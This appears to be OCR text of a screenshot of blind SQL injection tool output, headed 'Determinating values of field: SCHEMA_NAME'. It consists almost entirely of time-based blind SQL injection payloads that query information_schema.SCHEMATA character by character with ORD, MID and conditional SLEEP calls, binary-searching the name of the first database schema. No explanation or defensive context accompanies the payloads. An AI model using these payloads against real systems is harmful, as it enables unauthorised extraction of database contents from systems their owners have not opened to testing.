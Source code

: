 Field length: 18


Determinating values of field: SCHEMA_NAME

{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=106,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>106,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=105,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}